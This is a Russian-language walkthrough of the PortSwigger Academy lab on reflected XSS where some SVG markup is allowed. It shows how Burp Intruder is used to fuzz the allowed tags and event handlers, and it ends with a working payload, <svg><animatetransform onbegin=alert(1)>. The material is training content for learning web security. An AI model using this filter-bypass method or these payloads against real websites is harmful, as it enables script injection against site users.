 введем в строку поиска следующую XSS-ку
```
<img src=1 onerror=alert(1)>
```
и найдем в истории поиска данный запрос

Видим, что получили ответ 
```
"Tag is not allowed"
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walktrough/1.png)
отправим данный запрос в интрудер
```
GET /?search=<§§> 
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walktrough/2.png)
и перейдем в читлист 
```
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
```
и в качестве пэйлоадов выберем все тэги, которые принимаются веб-сервером
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walktrough/3.png)
начнем атаку, и увидим что нам вернулсь 200 статус респонс коды на следующие тэги:
```
title
svg
image
animatetransform
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walktrough/4.png)

Выберем тэг `svg` (так как по названию лабы он явно должен быть как-то причастен) и `animatetransform`
изменим запрос в интрудере на
```
GET /?search=<svg><animatetransform%20§§=1>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walktrough/5.png)
и в качестве элементов листа возьмем все значения из `events` читлиста
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walktrough/6.png)
и запустим атаку
отсортируем по статус коду, и увидим, что единственное что выдало 200 респонс код, это евент 
`onbegin`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walktrough/7.png)
соответственно идем в поисковую строку, вводим 
```
<svg><animatetransform onbegin=alert(1)>
```
и получаем сработавшую XSS и уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/14.%20Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/pics%20for%20walktrough/8.png)
